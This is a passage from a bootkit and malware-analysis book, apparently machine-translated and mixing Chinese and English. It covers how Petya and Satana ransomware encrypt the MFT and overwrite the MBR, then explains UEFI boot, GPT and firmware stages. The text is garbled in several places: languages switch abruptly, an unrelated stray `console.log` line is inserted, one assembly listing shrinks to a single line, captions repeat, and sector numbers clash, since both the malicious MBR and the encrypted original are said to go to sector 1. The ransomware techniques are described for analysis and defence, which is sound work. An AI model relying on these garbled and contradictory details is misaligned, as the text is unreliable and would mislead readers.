} BIOS_PARAMETER_BLOCK_NTFS, *PBIOS_PARAMETER_BLOCK_NTFS;
```

*Listing 13-8: BIOS parameter block layout in the VBR*

恶意引导代码检查 `MFTStartingCluster` ➋，该字段指定 MFT 相对于分区起始位置的偏移（以集群为单位）。集群是文件系统中最小可寻址的存储单元。集群大小可因系统而异，由 `SectorsPerCluster` 字段 ➊ 指定，恶意软件也会检查该字段。例如，NTFS 最常见的值为 8，对应 512 字节扇区大小时为 4096 字节。使用这两个字段，Petya 计算 MFT 相对于分区起始位置的偏移。

## `Parsing the MFT`

MFT 被组织为一个数组，每个元素描述一个文件或目录。我们不会深入 MFT 格式的细节，因为它足以独立成章。这里仅提供理解 Petya 恶意引导程序所需的信息。

此时，恶意软件已获得 MFT 的起始地址（`MFTStartingCluster`），但要得到精确位置，还需知道 MFT 的大小。MFT 可能不会以连续的扇区运行，而是分散在硬盘上的若干小段。为了获取 MFT 的确切位置，恶意代码读取并解析特殊元数据文件 `$MFT`，它位于 MFT 的前 16 条记录对应的 NTFS 元数据文件中。

每个这些文件对确保文件系统正确运行至关重要：

- **`$MFT`** 自引用 MFT，包含 MFT 在硬盘上的大小和位置信息
- **`$MFTMirr`** MFT 的镜像，包含前 16 条记录的复制
- **`$LogFile`** 卷的事务日志文件
- **`$BadClus`** 标记为“已损坏”的所有损坏集群的列表

如上所述，第一个元数据文件 `$MFT` 自引用，包含确定硬盘上 MFT 的确切位置所需的所有信息。恶意代码解析该文件，获取连续的扇区运行，然后使用 Salsa20 加密算法对其进行加密。

一旦系统中硬盘上的所有 MFT 都已加密，感染过程即告完成，恶意软件会触发 `INT 19h` 中断以重新启动引导过程。该中断处理程序使 BIOS 引导代码将可启动硬盘的 MBR 加载到内存并执行其代码。此次，当恶意引导代码从第 54 扇区读取配置信息时，EncryptionStatus 标志被设置为 1，表明 MFT 加密已完成，恶意软件随后显示勒索信息。

## `Displaying the Ransom Message`

引导代码显示的勒索信息在 Figure 13-7 中。


*Figure 13-7: The Petya ransom message*

该信息告知受害者系统已被 Petya 勒索软件 compromise，硬盘使用军用级加密算法加密。随后提供了数据解锁的操作指南。你可以在感染过程的第一步中看到 Petya 生成的 URL 列表。这些 URL 页面包含进一步的受害者指导。恶意软件还会显示用户需要输入的勒索代码，以获取解密密码。

恶意软件从受害者在勒索页面输入的密码生成 Salsa20 密钥，并尝试解密用于密钥验证的第 55 扇区。若密码正确，解密第 55 扇区的结果是占 0x37 字节的缓冲区。此时，勒索软件接受该密码，解密 MFT 并恢复原始 MBR。若密码错误，恶意软件会显示 “Incorrect key! Please try again.” 的提示。

### `Wrapping Up: Final Thoughts on Petya`

本文讨论了 Petya 感染过程，但仍有几个关于其方法的有趣点需要补充。

首先，与其他仅加密用户文件的勒索软件不同，Petya 在低级模式下工作，读取并写入原始硬盘数据，因而需要管理员权限。但它并不利用任何本地特权提升（LPE）漏洞，而是依赖于前文已提及的恶意软件中嵌入的清单信息。因此，如果用户选择不授予应用程序管理员权限，恶意软件因清单要求而不会被启动。即便在未以管理员身份运行的情况下，Petya 也无法打开硬盘设备句柄，因而无法造成损害。此时，Petya 调用的 `CreateFile` 例程会返回 `INVALID_HANDLE`，导致错误。

为绕过此限制，Petya 通常与另一款勒索软件 Mischa 一起分发。Mischa 是普通勒索软件，加密用户文件而非硬盘，且不需要系统管理员权限。若 Petya 未获得管理员权限，恶意加载器会执行 Mischa 代替。关于 Mischa 的讨论超出本章范围。

其次，如前所述，Petya 并非加密硬盘上文件的内容，而是加密 MFT 中的元数据，使得文件系统无法获取文件位置和属性信息。即使文件内容未被加密，受害者仍无法访问文件。因此，文件内容可能通过数据恢复工具和方法得到恢复。此类工具常用于取证分析以恢复损坏图像中的信息。

最后，正如你可能已经注意到的，Petya 是由熟练开发者编写的相当复杂的恶意软件。其功能表明对文件系统和引导加载程序有深入理解，标志着勒索软件演进的又一步。

# `Analyzing the Satana Ransomware`

现在，让我们来看另一例子 —— 针对引导过程的 Satana 勒索软件。

与仅感染硬盘 MBR 的 Petya 相比，Satana 还加密受害者的文件。

此外，MBR 并非 Satana 的主要感染向量。我们将展示替换原始 MBR 的恶意引导代码存在缺陷，且在 Satana 分发时很可能仍在开发阶段。

本节仅聚焦于 MBR 感染功能，因为用户模式文件加密功能超出本章范围。

## `The Satana Dropper`

先从 Satana 加载器（dropper）说起。加载器解压缩后，会将其复制到 *TEMP* 目录下的一个随机文件名中并执行该文件。Satana 需要管理员权限来感染 MBR，和 Petya 一样，它不利用任何 LPE 漏洞获取提升权限，而是通过 `setupapi!IsUserAdmin` API 检查进程的权限级别，该 API 检查当前进程的安全令牌是否属于管理员组。如果加载器没有特权，它会在 *TEMP* 文件夹中执行复制并使用 `ShellExecute` API 与 `runas` 参数重新启动恶意软件，提示受害者授予管理员权限。若用户选择 “No”，恶意软件会一直重复调用 `ShellExecute`，直至用户选择 “Yes” 或结束恶意进程。

## `The MBR Infection`

一旦 Satana 获得管理员权限，便开始硬盘感染。整个过程中，恶意软件从加载器的镜像中提取多个组件并写入硬盘。Figure 13-8 展示了 Satana 感染后硬盘前几扇区的布局。下面详细描述每个 MBR 感染元素，假设扇区编号从 0 开始，以简化说明。


*Figure 13-8: Layout of the hard drive with Satana infection*

为低级方式访问硬盘，恶意软件使用的 API 与 Petya 相同：`CreateFile`、`DeviceIoControl`、`WriteFile` 和 `SetFilePointer`。Satana 通过 `CreateFile` 调用 `\\\\.\\PhysicalDrive0` 作为文件名来打开硬盘句柄。随后执行 `DeviceIoControl`，参数为 `IOCTL_DISK_GET_DRIVE_GEOMETRY`，以获取硬盘参数，如总扇区数和每扇区字节数。

> **NOTE**
>
> 使用 `\\\\.\\PhysicalDrive0` 获取硬盘句柄的方法并非 100% 可靠，因为它假设引导硬盘总是索引为 0。虽然大多数系统满足此条件，但并非绝对保证。相较之下，Petya 更为谨慎，它在感染时动态确定当前硬盘索引，而 Satana 则使用硬编码值。

在对 MBR 进行感染前，Satana 会确认硬盘中 MBR 与第一个分区之间有足够的空闲空间来存放恶意引导加载程序组件。它会枚举分区并定位第一个分区及其起始扇区。若 MBR 与第一个分区之间的空闲扇区少于 15 个，Satana 会放弃感染过程，转而继续加密用户文件。否则，它尝试感染 MBR。

首先，Satana 计划在从第 7 个扇区（➎）开始的扇区中写入包含用户字体信息的缓冲区，缓冲区最多可占用八个扇区。这些写入的信息原本是用于让恶意引导程序以除默认语言（英文）之外的语言显示赎金消息。然而，我们在分析的 Satana 样本中未见其使用此方式。该恶意软件未在第 7 扇区写入任何内容，因此使用默认英文语言显示赎金消息。

随后，Satana 将赎金消息写入在 2 到 5 扇区（➌）的扇区中，以明文形式书写，未进行加密。

然后，恶意软件从第一扇区读取原始 MBR，并通过 XOR 与 512 字节的键进行加密。该键在感染阶段由伪随机数生成器生成。Satana 填充一个 512 字节的随机数据缓冲区，并用对应的键缓冲区的字节对 MBR 的每个字节进行 XOR 操作。加密完成后，恶意软件将加密键存储在第 6 扇区（➎），将加密后的原始 MBR 存储在第 1 扇区（➋）中。

最后，恶意软件将恶意 MBR 写入硬盘的第 1 扇区（➊）。在覆盖原始 MBR 之前，Satana 先用随机生成的字节值对已感染的 MBR 进行 XOR 加密，并在感染 MBR 的末尾写入该键，以便恶意 MBR 代码在系统启动时使用该键对自身进行解密。

此步骤完成了 MBR 感染过程，Satana 随后继续对用户文件进行加密。为了触发恶意 MBR 的执行，Satana 在加密用户文件后会重新启动计算机。

## `Dropper Debug Information`

在继续分析恶意 MBR 代码之前，我们想提及一个特别有趣的方面——dropper。我们分析的 Satana 样本中包含大量调试信息，记录了 dropper 中实现的代码，类似于我们在讨论的 Carberp 恶意软件（见 第 11 章）。

调试信息的存在表明，Satana 在我们分析时正处于开发阶段。Satana 使用 `OutputDebugString` API 输出调试信息，这些信息可以在调试器中观察，或通过其他捕获调试输出的工具查看。下面的 Listing 13-9 展示了使用 DebugMonitor 工具截获的恶意软件调试跟踪片段。

```
00000042 ➊ 27.19946671  [2760] Engine: Try to open drive \\.\PHYSICALDRIVE0  
00000043      27.19972229  [2760] Engine: \\.\PHYSICALDRIVE0 opened  
00000044 ➋ 27.21799088  [2760] Total sectors:83875365  
00000045      27.21813583  [2760] SectorSize: 512  
00000046      27.21813583  [2760] ZeroSecNum:15  
00000047      27.21813583  [2760] FirstZero:2  
00000048      27.21813583  [2760] LastZero:15  
00000049 ➌ 27.21823502  [2760] XOR key=0x91  
00000050      27.21839333  [2760] Message len: 1719  
00000051 ➞ 27.21941948  [2760] Message written to Disk  
00000052      27.22294235  [2760] Try write MBR to Disk: 0  
00000053 ➎ 27.22335243  [2760] Random sector written  
00000054      27.22373199  [2760] DAY: 2  
00000055 ➏ 27.22402954  [2760] MBR written to Disk# 0
```

*Listing 13-9: Satana dropper debug trace*


```
if (condVar > someVal) {console.log("xxx")}
```


# Satana Password Verification Routine Analysis

## Listing 13-11: Satana Password Verification Routine

```
seg000:01D1 ➍ jmp     short infinit_loop
```


*Figure 13-9: Satana ransom message*

The `compute_checksum` routine ➋ computes a checksum of the 8-byte string stored at address `ds:2800h` ➊ and stores the result in the `ax` register. Then the code compares the checksum with the value at address `ds:2900h` ➌. However, regardless of the outcome of the comparison, the code loops infinitely at ➍, meaning the execution flow doesn't go any further from this point, even though the malicious MBR contains code for decrypting the original MBR and restoring it at the very first sector. The victim who paid the ransom to unlock their system isn't actually able to do so without system recovery software. This is a vivid reminder that victims of ransomware shouldn't pay the ransom, as no one can guarantee that they'll retrieve their data.

## Wrapping Up: Final Thoughts on Satana

Satana is an example of a ransomware program still catching up with modern ransomware trends. The flaws observed in the implementation and the abundance of debugging information suggest that the malware was in development when we first saw it in the wild.

Compared to Petya, Satana lacks sophistication. Despite the fact that it never restores the original MBR, its MBR infection approach isn't as damaging as Petya's. The only boot component affected by Satana is the MBR, making it possible for the victim to restore access to the system by repairing the MBR using the Windows installation DVD, which can recover information on the system partitions and rebuild a new MBR with a valid partition table.

Victims can also restore access to the system by reading the encrypted MBR from sector 1 of the MBR and XORing it with the encryption key stored in sector 6. This retrieves the original MBR, which should be written to the very first sector to restore access to the system. However, even if a victim manages to restore access to the system by recovering the MBR, the contents of the files encrypted by Satana will still be unavailable.

## Conclusion

This chapter covers some of the major evolutions in modern ransomware. Attacks on both home users and organizations constitute a modern trend in the malware evolution, one that the antivirus industry has had to struggle to catch up with after the outbreak of trojans encrypting the contents of user files in 2012.

Although this new trend in ransomware is gaining in popularity, developing bootkit components requires different skills and knowledge than developing trojans for encrypting user files. The flaws in Satana's bootloader component are a clear example of this gulf of skills.

As we've seen with other malware, this arms race between malware and security software development has forced ransomware to evolve and adopt bootkit infection techniques to stay under the radar. As more and more ransomware has emerged, many security practices have become routine, such as backing up data—one of the best protection methods against a wide variety of threats, especially ransomware.

# 14 UEFI BOOT VS. THE MBR/VBR BOOT PROCESS


As we've seen, bootkit development follows the evolution of the boot process. With Windows 7's introduction of the Kernel-Mode Code Signing Policy, which made it hard to load arbitrary code into the kernel, came the resurgence of bootkits that targeted the boot process logic before any signing checks applied (for example, by targeting the VBR, which could not be protected at the time). Likewise, because the UEFI standard supported in Windows 8 is replacing legacy boot processes like the MBR/VBR boot flow, it is also becoming the next boot infection target.

The modern UEFI is very different from legacy approaches. The legacy BIOS developed alongside the first PC-compatible computer firmware and, in its early days, was a simple piece of code that configured the PC hardware during initial setup to boot all other software. But as PC hardware grew in complexity, more complex firmware code was needed to configure it, so the UEFI standard was developed to control the sprawling complexity in a uniform structure. Nowadays, almost all modern computer systems are expected to employ UEFI firmware for their configuration; the legacy BIOS process is increasingly relegated to simpler embedded systems.

Prior to the introduction of the UEFI standard, BIOS implementations by different vendors shared no common structure. This lack of consistency created obstacles for attackers, who were forced to target every BIOS implementation separately, but it was also a challenge for defenders, who had no unified mechanism for protecting the integrity of the boot process and control flow. The UEFI standard enabled defenders to create such a mechanism, which became known as the UEFI Secure Boot.

Partial support for UEFI started with Windows 7, but support for UEFI Secure Boot was not introduced until Windows 8. Alongside Secure Boot, Microsoft continues supporting the MBR-based legacy boot process via UEFI's Compatibility Support Module (CSM), which is not compatible with Secure Boot and does not offer its integrity guarantees, as discussed shortly. Whether or not this legacy support via CSM is disabled in the future, UEFI is clearly the next step in the evolution of the boot process and, thus, the arena where the bootkit's and the boot defense's codevelopment will occur.

In this chapter, we'll focus on the specifics of the UEFI boot process, specifically on its differences from the legacy boot MBR/VBR infection approaches.

## The Unified Extensible Firmware Interface

UEFI is a specification ([`www.uefi.org`](https://www.uefi.org)) that defines a software interface between an operating system and the firmware. It was originally developed by Intel to replace the widely divergent legacy BIOS boot software, which was also limited to 16-bit mode and thus unsuitable for new hardware. These days, UEFI firmware dominates in the PC market with Intel CPUs, and ARM vendors are also moving toward it. As mentioned, for compatibility reasons, some UEFI-based firmware contains a Compatibility Support Module to support the legacy BIOS boot process for previous generations of operating systems; however, Secure Boot cannot be supported under CSM.

The UEFI firmware resembles a miniature operating system that even has its own network stack. It contains a few million lines of code, mostly in C, with some assembly language mixed in for platform-specific parts. The UEFI firmware is thus much more complex and provides more functionality than its legacy BIOS precursors. And, unlike the legacy BIOS, its core parts are open source, a characteristic that, along with code leaks (for example, the AMI source code leak of 2013), has opened up possibilities for external vulnerability researchers. Indeed, a wealth of information about UEFI vulnerabilities and attack vectors has been released over the years, some of which will be covered in Chapter 16.

> **NOTE**
>
> *The inherent complexity of UEFI firmware is one of the main causes of a number of UEFI vulnerabilities and attack vectors reported over the years. The availability of the source code and greater openness of UEFI firmware implementation details, however, is not. Source code availability shouldn't have a negative impact on security and, in fact, has the opposite effect.*

## Differences Between the Legacy BIOS and UEFI Boot Processes

From a security standpoint, the main differences in UEFI's boot process derive from the aim of supporting Secure Boot: the flow logic of the MBR/VBR is eliminated and completely replaced by UEFI components. We've mentioned Secure Boot a few times already, and now we'll look at it more closely as we examine the UEFI process.

Let's first review the examples of malicious OS boot modifications we've seen so far and the bootkits that inflict them:

- **MBR boot code modification** (TDL4)
- **MBR partition table modification** (Olmasco)
- **VBR BIOS Parameter Block** (Gapz)
- **IPL boot code modification** (Rovnix)

From this list, it's clear that boot process infection techniques all rely on compromising the integrity of the next stage to be loaded. UEFI Secure Boot changes this paradigm by establishing a chain of trust that verifies the integrity of every stage in the process before loading it and granting it control.

### Boot Process Flow

The legacy BIOS MBR's task is merely to perform necessary hardware configuration and then transfer control to each subsequent stage of boot code—from the boot code to the MBR to the VBR, and finally to the OS bootloader (for example, `bootmgr` and `winload.exe` in Windows); the rest of the flow logic is beyond its scope.

The UEFI boot process is radically different. The MBR and VBR are gone, replaced by a piece of UEFI's own boot code responsible for loading `bootmgr`.

### Disk Partitioning: MBR vs. GPT

UEFI also differs from the legacy BIOS in its use of partition tables. The legacy BIOS uses MBR-style partition tables, while UEFI supports the *GUID Partition Table (GPT)*. GPT differs from MBR in that MBR tables support only four primary or extended partitions (with extended partitions containing multiple logical partitions), whereas GPT supports a much larger number of partitions, each with a unique 16-byte Globally Unique Identifier (GUID). Overall, MBR partitioning rules are more complex than GPT's; GPT uses a flat table structure, supports larger partition sizes, but requires the use of GUIDs for identification rather than small integers. The flat table structure simplifies partition management in the UEFI environment.

To support the UEFI boot process, the new GPT scheme mandates loading the UEFI OS bootloader from a dedicated partition (in traditional MBR tables, this role was served by the "active" flag set on a primary partition). This dedicated partition is called the *EFI System Partition*, and it uses the FAT32 filesystem format (FAT12 and FAT16 also work). The bootloader's path within the partition's filesystem is specified by a Non-Volatile Random Access Memory (NVRAM) variable, also known as a UEFI variable. NVRAM is a small storage module on the PC's motherboard used to store BIOS and OS configuration settings.

For Microsoft Windows, the bootloader path in a UEFI system resembles `\\EFI\\Microsoft\\Boot\\bootmgfw.efi`. This module's role is to locate the OS kernel loader—in modern UEFI-capable Windows versions, `winload.efi`—and transfer control to it. `winload.efi` functions essentially the same as `winload.exe`: loading and initializing the OS kernel image.

Figure 14-1 illustrates the legacy BIOS vs. UEFI boot flows, skipping the MBR and VBR steps.


*Figure 14-1: Differences between legacy BIOS and UEFI system boot flows*

As you can see, the UEFI system performs significantly more work at the firmware level before handing control to the OS bootloader. The legacy BIOS is responsible only for platform initialization, leaving the rest to the bootloaders (`bootmgr` and `winload.exe`), whereas the UEFI firmware controls the entire boot process, with no intermediate stages like the MBR/VBR.

### Other Differences

Another major change introduced by UEFI is that virtually all code runs in protected mode, with the exception of a tiny bootstrap stub that receives control directly from the CPU upon power-up or reset. Protected mode supports 32-bit or 64-bit code execution (as well as the less common compatibility mode), whereas the legacy BIOS boot logic runs mostly in 16-bit mode until it hands control to the OS loader.

Compared to legacy BIOS firmware, UEFI firmware is mostly written in C (and can even be compiled with C++, as some vendors have done), with only small parts in assembly language. This results in higher code quality compared to legacy BIOS implementations written entirely in assembly.

Beyond that, legacy BIOS and UEFI firmware differ in the following aspects, detailed in Table 14-1.

**Table 14-1:** Legacy BIOS vs. UEFI Firmware Comparison

| | **Legacy BIOS** | **UEFI firmware** |
| --- | --- | --- |
| **Architecture** | No fixed development process; each BIOS vendor independently supports its codebase | Standardized development process, Intel reference implementation (EDKI/EDKII) |
| **Implementation** | Primarily assembly language | C/C++ |
| **Memory model** | 16-bit real mode | 32/64-bit protected mode |
| **Bootstrap code** | MBR and VBR | None (firmware directly controls boot process) |
| **Partition scheme** | MBR partition table | GUID Partition Table (GPT) |
| **Disk I/O** | System interrupts | UEFI services |
| **Bootloaders** | `bootmgr` and `winload.exe` | `bootmgfw.efi` and `winload.efi` |
| **OS interaction** | BIOS interrupts | UEFI services |
| **Boot configuration information** | CMOS storage, no concept of NVRAM variables | UEFI NVRAM variable storage |

Before diving deeper into the UEFI boot process and its OS bootloaders, let's take a deep dive into GPT. Understanding the differences between MBR and GPT partitioning schemes is crucial for grasping the UEFI boot process.

## GPT Details

If you examine a primary Windows hard drive formatted with GPT in a hex editor, you'll find no MBR or VBR boot code in the first two sectors (1 sector = 512 bytes). The space where the legacy BIOS would place the MBR code is now entirely zeroed out. Instead, at the beginning of the second sector, you can see the `EFI PART` signature at offset `0x200` (Figure 14-2), immediately following the common `55 AA` end marker. This is the GPT header signature identifying it as a GPT.


*Figure 14-2: GUID Partition Table signature extracted from `\\\\.\\PhysicalDrive0`*

The MBR partition table structure hasn't disappeared entirely. For backward compatibility, GPT emulates a legacy MBR table at the beginning. This "protective MBR" contains only a single entry spanning the entire disk, as shown in Figure 14-3. The protective MBR has the same format as a regular MBR, except it serves merely as a placeholder. UEFI firmware recognizes this protective MBR and does not attempt to execute any code from it.


*Figure 14-3: Protective MBR on a GPT disk*

The key difference from the legacy BIOS boot process is that all code in the early system boot stages is now encapsulated within the UEFI firmware itself, residing on the flash chip rather than on the disk. This means MBR infection methods like those used by TDL4 and Olmasco (which infect or modify the MBR or VBR on disk) have no effect on the boot flow of GPT-based systems, even without Secure Boot enabled.

### Checking for GPT Support

You can use Microsoft's PowerShell commands to check if a Windows system includes GPT support. Specifically, the `Get-Disk` command (Listing 14-1) returns a table whose last column, named "Partition Style," displays the supported partition table type. If it's compatible with GPT, it will show as GPT; otherwise, it will show as MBR.

**Listing 14-1: Checking partition style with Get-Disk**

```
PS C:\> Get-Disk

Number Friendly Name    Operational Status    Total Size    Partition Style
------ -------------    ------------------    ----------    ---------------
0      Microsoft Virtual Disk    Online                127GB    GPT
```


### Listing 14-1: The output from `Get-Disk`


Table 14-2 列出了 GPT 头中所包含值的描述。

**表 14-2:** GPT 头

| **名称** | **偏移量** | **长度** |
| --- | --- | --- |
| 签名 “EFI PART” | 0x00 | 8 字节 |
| 适用于 GPT 版本的修订 | 0x08 | 4 字节 |
| 头大小 | 0x0C | 4 字节 |
| 头 CRC32 | 0x10 | 4 字节 |
| 保留 | 0x14 | 4 字节 |
| 当前 LBA（逻辑块寻址） | 0x18 | 8 字节 |
| 备份 LBA | 0x20 | 8 字节 |
| 分区表可用的第一个 LBA | 0x28 | 8 字节 |
| 最后可用 LBA | 0x30 | 8 字节 |
| 磁盘 GUID | 0x38 | 16 字节 |
| 分区条目数组的起始 LBA | 0x48 | 8 字节 |
| 分区条目数组中的条目数量 | 0x50 | 4 字节 |
| 单个分区条目的大小 | 0x54 | 4 字节 |
| 分区条目数组的 CRC32 | 0x58 | 4 字节 |
| 保留 | 0x5C | * |

如上所示，GPT 头仅包含常数字段，而非代码。从取证角度来看，最重要的字段是 `分区条目数组的起始 LBA` 和 `分区条目数组中的条目数量`，它们分别定义分区表在硬盘上的位置和大小。

GPT 头中的另一个有趣的字段是 `备份 LBA`，它提供了 GPT 头备份副本的位置。这在主 GPT 头损坏时可用于恢复主 GPT 头。我们在讨论 Petya 勒索软件时（第 13 章），提到了备份 GPT 头，因为 Petya 同时加密了主备份 GPT 头，使得系统恢复更加困难。

如图 14-4 所示，分区表中的每一项都提供了硬盘上分区属性和位置的信息。


*图 14-4: GUID 分区表*

两个 64 位字段 `First LBA` 和 `Last LBA` 分别定义分区的第一个和最后一个扇区的地址。`分区类型 GUID` 字段包含一个 GUID 值，用于标识分区类型。例如，前文提到的 EFI 系统分区的类型为 `C12A7328-F81F-11D2-BA4B-00A0C93EC93B`。

GPT 方案中不存在任何可执行代码，这为引导程序感染带来了问题：在 GPT 方案中，恶意软件开发者如何将控制权转移到其恶意代码中？一个思路是修改 EFI 引导加载程序，使其在转移控制权给操作系统内核之前执行恶意代码。在此之前，我们先了解一下 UEFI 固件架构和启动过程的基本概念。

### UEFI 固件的工作原理

在了解完 GPT 分区方案后，我们现在知道操作系统引导加载程序的位置以及 UEFI 固件如何在硬盘上找到它。接下来，我们来看 UEFI 固件如何加载并执行操作系统加载程序。我们将按顺序介绍 UEFI 启动过程的各个阶段，以准备执行加载程序的环境。

UEFI 固件会解释 GPT 表中的数据结构，以定位操作系统加载程序，该固件存储在主板的闪存芯片中（也称为 `SPI 闪存`，其中 “SPI” 指的是连接芯片与芯片组其余部分的总线接口）。系统启动时，芯片组逻辑会将闪存芯片的内容映射到特定的 RAM 区域，其起始和结束地址由硬件芯片组本身配置，并取决于 CPU 具体配置。一旦映射到的 SPI 闪存芯片代码在通电后获得控制权，它会初始化硬件并加载各种驱动、操作系统启动管理器、操作系统加载程序，最后加载操作系统内核本身。该序列的步骤可以概括为：

1. UEFI 固件执行平台初始化，完成 CPU 和芯片组初始化，并加载 UEFI 平台模块（即 UEFI 驱动；这些模块与后续加载的设备特定代码不同）。
2. UEFI 启动管理器枚举外部总线上的设备（如 PCI 总线），加载 UEFI 设备驱动，然后加载启动应用。
3. Windows 启动管理器（`bootmgfw.efi`）加载 Windows 启动加载程序。
4. Windows 启动加载程序（`winload.efi`）加载 Windows 操作系统。

负责步骤 1 和 2 的代码位于 SPI 闪存；负责步骤 3 和 4 的代码则从硬盘的特殊 UEFI 分区的文件系统中提取，仅在步骤 1 和 2 完成后才能读取硬盘。

UEFI 规范将固件进一步划分为负责硬件初始化或启动过程不同部分的组件，如图 14-5 所示。

操作系统加载程序本质上依赖于 UEFI 固件提供的 EFI 启动服务和 EFI 运行服务来启动并管理系统。我们将在“操作系统加载程序内部”的第 245 页进一步说明，加载程序利用这些服务建立一个能够加载操作系统内核的环境。当操作系统加载程序接管启动流程后，启动服务即被移除，不再对操作系统可用。然而，运行服务在操作系统运行时仍然可用，并提供读取/写入 NVRAM UEFI 变量、通过 `Capsule Update` 进行固件更新以及重启或关闭系统的接口。


*图 14-5: UEFI 框架概览*

#### 固件胶囊更新

`Capsule Update` 是一种用于安全更新 UEFI 固件的技术。操作系统将胶囊固件更新镜像加载到内存中，并通过运行时服务向 UEFI 固件发出胶囊已存在的信号。因此，UEFI 固件在下次启动时重新启动系统并处理更新胶囊。`Capsule Update` 旨在标准化并改进 UEFI 固件更新过程的安全性。我们将在第 15 章中更深入地讨论它。

#### The UEFI Specification

与传统 BIOS 启动不同，UEFI 规范覆盖了从硬件初始化开始的每一个步骤。在此之前，硬件厂商在固件开发过程中拥有更大的自由度，但这种自由度也导致了混乱和漏洞。规范列出了引导过程的四个主要连续阶段，每个阶段都有其各自的责任：

**Security (SEC)** 初始化使用 CPU 缓存的临时内存并定位 PEI 阶段的加载器。SEC 阶段执行的代码从 SPI 闪存中运行。

**Pre-EFI Initialization (PEI)** 配置内存控制器，初始化芯片组，并处理 S3 休眠恢复过程。PEI 阶段执行的代码在内存控制器初始化之前运行于临时内存中，完成后会从永久内存中执行。

**Driver Execution Environment (DXE)** 初始化系统管理模式 (SMM) 与 DXE 服务（核心、分发器、驱动等），以及启动和运行时服务。

**Boot Device Selection (BDS)** 发现操作系统可从中启动的硬件设备，例如通过枚举 PCI 巴士上的外设，这些外设可能包含兼容 UEFI 的启动加载器（如操作系统加载器）。

启动过程中使用的所有组件均位于 SPI 闪存中，除了操作系统加载器，它位于磁盘文件系统中，由 SPI 闪存基于的 DXE/BDS 阶段代码通过存储在 NVRAM UEFI 变量中的文件系统路径找到（如前所述）。

SMM 与 DXE 初始化阶段是植入根套件的最有趣的区域。SMM 在环 –2，是最受信任的系统模式——比环 –1 的超级盾更受信任。从该模式，恶意代码可以完全控制系统。

同样，DXE 驱动为实现引导套件功能提供了另一个强大的入口点。Hacking Team 的固件根套件实现就是 DXE 驱动的一个典型例子，详见第 15 章。

**SYSTEM MANAGEMENT MODE**

System Management Mode 是 x86 CPU 的一种特殊模式，以特殊的更高“环 –2”特权（即“减二”）执行，这比“环 –1”更低且更有权力，而“环 0”则是历史上最受信任的特权（不是吗？）。SMM 最初在 Intel 386 处理器中引入，主要用于电源管理，但现代 CPU 的复杂度和重要性已大幅提升。SMM 如今是固件的组成部分，负责启动过程中的所有初始化和内存分离设置。SMM 的代码运行在与正常操作系统地址空间（包括 OS 内核空间）隔离的独立地址空间中。我们将在第 15 章和第 16 章中进一步探讨 UEFI 根套件如何利用 SMM。

我们现在来探讨最后一个阶段以及操作系统内核获得控制的过程。我们将在下一章更详细地讨论 DXE 与 SMM。

#### Inside the Operating System Loader

当 SPI 存储的 UEFI 固件代码完成工作后，它将控制权交给存储在磁盘上的操作系统加载器。加载器代码是 64 位或 32 位（取决于操作系统版本），启动过程不再包含 MBR 或 VBR 的 16 位加载器代码。

操作系统加载器由多个文件组成，存放在 EFI 系统分区中，包括 `bootmgfw.efi` 与 `winload.efi` 两个模块。前者被称为 *Windows Boot Manager*，后者称为 *Windows Boot Loader*。这些模块的位置也由 NVRAM 变量指定。特别是，UEFI 路径变量（由 UEFI 标准定义的端口和总线枚举方式决定）指示包含 ESP 的磁盘路径，存储在启动顺序 NVRAM 变量 `BOOT_ORDER`（用户通常可以通过 BIOS 配置修改）；ESP 文件系统内的路径则存储在另一个变量 `BOOT`（通常为 `\\EFI\\Microsoft\\Boot\\`）。

##### Accessing the Windows Boot Manager

UEFI 固件启动管理器查询 NVRAM UEFI 变量以找到 ESP，然后在 Windows 情况下，查找其中的 OS 专用启动管理器 `bootmgfw.efi`。启动管理器随后在内存中创建该文件的运行时镜像。为此，它依赖于 UEFI 固件读取启动硬盘并解析其文件系统。在其他操作系统下，NVRAM 变量会包含相应 OS 加载器的路径，例如 Linux 指向 GRUB 启动加载器 (`grub.efi`)。

当 `bootmgfw.efi` 加载完成后，UEFI 固件启动管理器跳转到 `bootmgfw.efi` 的入口点 `EfiEntry`。此时，SPI 闪存中存储的固件将控制权交给硬盘上的代码。

##### Establishing an Execution Environment

`EfiEntry` 的原型如 Listing 14-2 所示，它调用 Windows Boot Manager `bootmgfw.efi`，并用于配置 UEFI 固件回调，以便在 `winload.efi`（Windows Boot Loader）之后被调用。这些回调将 `winload.efi` 代码与 UEFI 运行时服务关联，用于对外设（如硬盘）进行操作。这些服务在 Windows 完全加载后仍会通过硬件抽象层（HAL）包装继续使用，我们稍后会看到它们的设置过程。

```
EFI_STATUS EfiEntry (
    EFI_HANDLE ImageHandle,      // UEFI image handle for loaded application
    EFI_SYSTEM_TABLE *SystemTable // Pointer to UEFI system table
);
```

*Listing 14-2: Prototype of the EfiEntry routine (EFI_IMAGE_ENTRY_POINT)*

`EfiEntry` 的第一个参数 ➊ 指向负责继续启动过程并调用 `winload.efi` 的 `bootmgfw.efi` 模块。第二个参数 ➋ 包含指向 UEFI 配置表（`EFI_SYSTEM_TABLE`）的指针，这是访问大多数 EFI 环境服务配置数据的关键（Figure 14-6）。


*Figure 14-6: EFI_SYSTEM_TABLE high-level structure*

`winload.efi` 加载器使用 UEFI 服务加载操作系统内核，并通过启动设备驱动堆栈初始化 `EFI_RUNTIME_TABLE`，以便内核通过 HAL 库模块 (`hal.dll`) 在未来访问。`hal.dll` consumes the `EFI_SYSTEM_TABLE` 并导出包装 UEFI 运行时函数的函数，供内核调用，例如读取 NVRAM 变量和通过 `Capsule Update` 向 UEFI 固件提交固件更新。

请注意，多层包装的模式在启动过程中由每一层 progressively 配置的 UEFI 硬件特定代码实现。一次系统调用可能会跨越 UEFI 的“兔子洞”多深！

`hal.dll` 中使用的 `EFI_RUNTIME_SERVICES` 结构体在 Figure 14-7 中有所表示。


*Figure 14-7: EFI_RUNTIME_SERVICES in* `hal.dll`*’s representation*

`HalEfiRuntimeServiceTable` holds a pointer to `EFI_RUNTIME_SERVICES`, which in turn contains the addresses of entry points of service routines that will do things like get or set the NVRAM variable, perform a `Capsule Update`, and so on.

In the next chapters, we’ll analyze these structures in the context of firmware vulnerabilities, exploitation, and rootkits. For now, we simply want to stress that `EFI_SYSTEM_TABLE` and (especially) `EFI_RUNTIME_SERVICES` within it are the keys to finding the structures responsible for accessing UEFI configuration information and that some of this information is accessible from the kernel mode of the operating system.

